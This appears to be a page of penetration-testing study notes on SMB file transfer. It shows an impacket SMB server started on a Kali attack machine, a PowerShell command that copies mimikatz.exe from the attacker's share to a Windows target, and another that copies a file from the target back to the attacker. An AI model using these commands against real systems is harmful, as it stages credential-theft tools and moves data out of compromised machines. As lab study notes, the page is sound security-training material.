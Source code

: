 ```yaml
---
title: SMB File Transfer
layout: default
nav_order: 7
parent: File Transfers

---
```


# SMB
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---
### SMB File Transfer
Start SMB Server on Kali Machine:
```bash
/usr/share/doc/python3-impacket/examples/smbserver.py -smb2support MYSHARE .
```

Transfer files from Kali Machine → Windows Target Machine
```powershell
$IP="192.168.119.239"
copy \\${IP}\MYSHARE\mimikatz.exe
```

Transfer files from Windows Target Machine → Kali Attack Machine
```powershell
$IP="192.168.119.239"
copy C:\Users\Desktop\file.txt \\${IP}\MYSHARE\file.txt
```